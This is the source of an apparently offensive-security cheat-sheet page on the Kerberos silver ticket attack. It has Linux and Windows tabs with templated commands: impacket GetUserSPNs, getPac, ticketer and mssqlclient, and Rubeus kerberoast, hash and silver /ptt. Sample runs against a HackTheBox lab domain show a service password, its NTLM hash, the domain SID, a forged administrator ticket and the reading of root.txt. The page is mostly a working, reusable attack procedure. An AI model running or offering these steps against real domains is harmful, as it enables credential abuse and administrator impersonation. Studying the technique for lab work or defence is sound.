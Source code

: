 ```yaml
---
title: "Silver Ticket"
date: 2024-7-30
tags: ["Pass-The-Ticket", "SID", "Rubeus", "Ticket Granting Ticket", "Silver Ticket", "Sidhistory", "Domain Controller", "Active Directory", "Windows", "GetUserSPNs"]
---
```


### Silver Ticket Attack

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Get Service Principle Name (SPN) \[Optional\]

```console
sudo ntpdate -s <DC_IP> && impacket-GetUserSPNs '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -request -k
```

```console
# If NTLM auth is disabled
sudo ntpdate -s <DC_IP> && impacket-GetUserSPNs '<DOMAIN>/<USER>:<PASSWORD>' -dc-host <DC> -request -k
```

#### 2. Generate NTLM

```console
iconv -f ASCII -t UTF-16LE <(printf '<PASSWORD>') | openssl dgst -md4
```

```console {class="sample-code"}
$ iconv -f ASCII -t UTF-16LE <(printf 'REGGIE1234ronnie') | openssl dgst -md4 
MD4(stdin)= 1443ec19da4dac4ffc953bca1b57b4cf
```

#### 3. Get Domain SID

```console
sudo ntpdate -s <DC_IP> && impacket-getPac -targetUser administrator '<DOMAIN>/<USER>:<PASSWORD>'
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.sequel.htb && impacket-getPac -targetUser administrator 'sequel.htb/sql_svc:REGGIE1234ronnie'
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

KERB_VALIDATION_INFO 
LogonTime:                      
    dwLowDateTime:                   4131845666 
    dwHighDateTime:                  31133135 

---[SNIP]---
 
Domain SID: S-1-5-21-4078382237-1492182817-2568127209

 0000   10 00 00 00 43 04 A9 EA  FD 5C DC 66 5C CE D0 B2   ....C....\.f\...
```

#### 4. Generate Silver Ticket

```console
impacket-ticketer -nthash <HASH> -domain-sid <SID> -domain <DOMAIN> -dc-ip <DC> -spn anything/<DC> administrator
```

```console {class="sample-code"}
$ impacket-ticketer -nthash 1443ec19da4dac4ffc953bca1b57b4cf -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb -dc-ip dc.sequel.htb -spn anything/dc.sequel.htb administrator
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for sequel.htb/administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in administrator.ccache
```

#### 5. Import Ticket

```console
export KRB5CCNAME=administrator.ccache
```

```console {class="sample-code"}
$ export KRB5CCNAME=administrator.ccache
```

#### 6. Check

```console
klist
```

```console {class="sample-code"}
$ klist
Ticket cache: FILE:administrator.ccache
Default principal: administrator@SEQUEL.HTB

Valid starting     Expires            Service principal
09/25/24 07:55:27  09/23/34 07:55:27  anything/dc.sequel.htb@SEQUEL.HTB
        renew until 09/23/34 07:55:27
```

#### 7. Access Service

```console
# For example: mssql
impacket-mssqlclient -k <DC>
```

```console {class="sample-code"}
$ impacket-mssqlclient -k dc.sequel.htb                                                
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sequel\Administrator  dbo@master)> SELECT * FROM OPENROWSET(BULK N'C:\users\administrator\desktop\root.txt', SINGLE_CLOB) AS Contents
BulkColumn                                
---------------------------------------   
b'2186a912c7f240246fd2c2b04651f9b4\r\n'
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Get Service Principle Name (SPN) \[Optional\]

```console
.\rubeus.exe kerberoast /domain:<DOMAIN> /dc:<DC> /creduser:<DOMAIN>\<USER> /credpassword:'<PASSWORD>' /nowrap
```

#### 2. Generate NTLM

```console
.\rubeus.exe hash /password:'<PASSWORD>'
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> .\rubeus.exe hash /password:'REGGIE1234ronnie'

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : REGGIE1234ronnie
[*]       rc4_hmac             : 1443EC19DA4DAC4FFC953BCA1B57B4CF

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!
```

#### 3. Get Domain SID

#### 3a. Locally

```console
import-module activedirectory
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> import-module activedirectory
```

```console
Get-ADDomain | fl DomainSID
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> Get-ADDomain | fl DomainSID

DomainSID : S-1-5-21-4078382237-1492182817-2568127209
```

#### 3b. Remotely

```console
# Install ldp.exe (Windows 11)
Settings > System > Optional Features > More Windows Features and add 'Active Directory Lightweight Directory Services'
```

```console
# Bind > Bind with credentials
ldp.exe
```

```console
# Browse > Search
BaseDN: DC=<EXAMPLE>,DC=<COM>
Filter: (objectclass=User)
```

#### 4. Generate Silver Ticket

```console
.\rubeus.exe silver /domain:<DOMAIN> /dc:<DC> /sid:<SID> /rc4:<HASH> /user:administrator /service:anything/<DC> /nowrap /ptt
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> .\rubeus.exe silver /domain:sequel.htb /dc:dc.sequel.htb /sid:S-1-5-21-4078382237-1492182817-2568127209 /rc4:1443EC19DA4DAC4FFC953BCA1B57B4CF /user:administrator /service:anything/dc.sequel.htb /nowrap /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Build TGS

[*] Building PAC

[*] Domain         : SEQUEL.HTB (SEQUEL)
[*] SID            : S-1-5-21-4078382237-1492182817-2568127209
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ServiceKey     : 1443EC19DA4DAC4FFC953BCA1B57B4CF
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : 1443EC19DA4DAC4FFC953BCA1B57B4CF
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : anything
[*] Target         : dc.sequel.htb

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGS for 'administrator' to 'anything/dc.sequel.htb'

[*] AuthTime       : 9/24/2024 5:06:04 PM
[*] StartTime      : 9/24/2024 5:06:04 PM
[*] EndTime        : 9/25/2024 3:06:04 AM
[*] RenewTill      : 10/1/2024 5:06:04 PM

[*] base64(ticket.kirbi):

      doIFUTCCBU ---[SNIP]--- F1ZWwuaHRi


[+] Ticket successfully imported!
```

#### 5. Check

```console
klist
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\sql_svc\Documents> klist

Current LogonId is 0:0x1293866

Cached Tickets: (1)

#0>     Client: administrator @ SEQUEL.HTB
        Server: anything/dc.sequel.htb @ SEQUEL.HTB
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 9/24/2024 17:06:04 (local)
        End Time:   9/25/2024 3:06:04 (local)
        Renew Time: 10/1/2024 17:06:04 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```

{{< /tabcontent >}}
